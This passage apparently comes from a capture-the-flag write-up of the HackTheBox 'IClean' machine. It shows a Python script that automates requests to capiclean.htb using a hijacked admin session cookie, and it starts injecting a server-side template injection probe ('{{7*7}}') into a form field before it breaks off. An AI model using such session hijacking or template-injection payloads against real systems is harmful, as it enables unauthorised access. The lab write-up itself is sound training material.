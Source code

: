 ![Writeup-7.png](/assets/images/Machines/IClean/Writeup-7.png)

{% raw %}

Automate the QR shinanigans:
```python
from PIL import Image
from io import BytesIO
from pyzbar.pyzbar import decode
import requests
from bs4 import BeautifulSoup as BS


def decode_qr(url: str) -> str:
    return decode(Image.open(BytesIO(requests.get(url).content)))[0].data.decode()


def get_fields(url: str) -> str:
    html = BS(requests.get(url).text, 'html.parser')
    service = html.find_all('tr')[1].text.strip()
    project = html.find('div', {'id': 'project'}).text
    return f'{service}\n{project}'

class Routes:
    BASE = 'http://capiclean.htb'
    INVOICE = BASE + '/InvoiceGenerator'
    QR = BASE + '/QRGenerator'


COOKIES = dict(
    session='eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZqsI1Q.5kq0xb1x-X0KbJFGVLS_4qCWbyw'
)

with requests.Session() as session:
    payload = {
        'selected_service': '{{7*7}}',
```